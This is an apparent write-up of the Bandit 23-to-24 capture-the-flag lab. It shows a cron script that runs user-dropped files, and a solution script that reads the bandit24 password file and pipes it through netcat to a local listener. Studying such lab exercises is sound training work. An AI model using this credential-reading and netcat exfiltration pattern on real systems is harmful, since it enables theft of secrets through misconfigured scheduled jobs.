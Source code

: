 # Bandit 23 -> 24

- Bash script

```bash
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname
echo "Executing and deleting all scripts in /var/spool/$myname:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".."  ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23"  ]; then
        timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done
```

- Executes scripts in /var/spool/bandit24 then deletes them
- Tried opening netcat port
- Tried saving to file in /tmp

## Netcat Solution

- Open netcat port

```bash
nc -v -l 127.0.0.1 -p 1337
```

- Create bash script exec.sh

```bash
#!/bin/bash

cat /etc/bandit_pass/bandit24 | nc 127.0.0.1 1337

```

- Change execution bit of script

```bash
chmod +x exec.sh
```

## Solution
